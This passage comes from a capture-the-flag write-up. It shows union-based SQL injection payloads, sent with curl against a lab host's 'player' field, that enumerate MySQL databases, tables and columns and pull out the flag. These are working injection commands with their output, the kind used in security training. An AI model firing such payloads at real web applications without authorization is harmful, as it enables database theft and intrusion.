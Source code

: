 
    curl -s -X POST http://10.10.11.128 -d "player=' union select user();-- -" 
      | sed 's/Sorry, //' 
      | sed 's/ you are not eligible due to already qualifying.//'
    echo



This will get the result I'm looking for and remove the constant data
that I don't want. The extra `echo` is just to put a newline on the end.



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select user();-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    uhc@localhost



#### DB Enumeration

There are five databases on the host, but really only `november` is
interesting:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    mysql,information_schema,performance_schema,sys,november



The `november` DB has two tables:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november';-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    flag,players



Interestingly, each table only has one column:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(table_name, ':', column_name) from INFORMATION_SCHEMA.columns where table_schema='november';-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    flag:one,players:player



I can grab the flag:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(one) from flag;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    UHC{F1rst_5tep_2_Qualify}


